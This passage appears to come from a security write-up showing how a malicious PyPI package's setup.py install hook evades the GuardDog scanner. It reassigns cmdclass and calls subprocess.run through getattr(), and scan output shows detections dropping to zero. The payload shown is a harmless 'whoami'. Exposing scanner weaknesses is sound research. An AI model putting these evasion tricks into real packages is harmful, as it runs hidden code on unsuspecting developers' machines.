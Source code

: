 But that's an easy fix. If we just assign the `{'install': Install}` dictionary to a variable ([like pytorch does](https://github.com/pytorch/pytorch/blob/eadbf762fc36f23ef78b084973dc39a13605db46/setup.py#L1199)), we avoid detection:

`setup.py:`
```python
...
cmdclass = {'install': Install}

setuptools.setup(
    name="malicious",
    version="1.0.0",
    install_requires=[],
    cmdclass=cmdclass
)
```
```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 0 potentially malicious indicators scanning ./dist/malicious-1.0.0.tar.gz
```

Now let's try executing some more useful code than just a print statement, such as running a shell command:

```python
def run(self):
    subprocess.run(['whoami'])
```

Uh oh, we've been caught:

```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 1 potentially malicious indicators in ./dist/malicious-1.0.0.tar.gz

code-execution: found 1 source code matches
  * setup.py file executing code at malicious-1.0.0/setup.py:8
        subprocess.run(['whoami'])
```

But we can bypass that easily as well. The thing about automated scanners is that they always have to balance false positives, which makes them fall apart when faced with a dedicated attacker. GuardDog can detect "common obfuscation methods", but I guess not `getattr()`. The following code obtains the function `subprocess.run()` via the string `run` instead of using the dotted syntax, then executes it like normal:

```python
def run(self):
    getattr(subprocess, 'run')(['whoami'])
```
```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 0 potentially malicious indicators scanning ./dist/malicious-1.0.0.tar.gz
```

Great! Now we have the ability to execute arbitrary code (including subprocesses) on a developer's laptop.
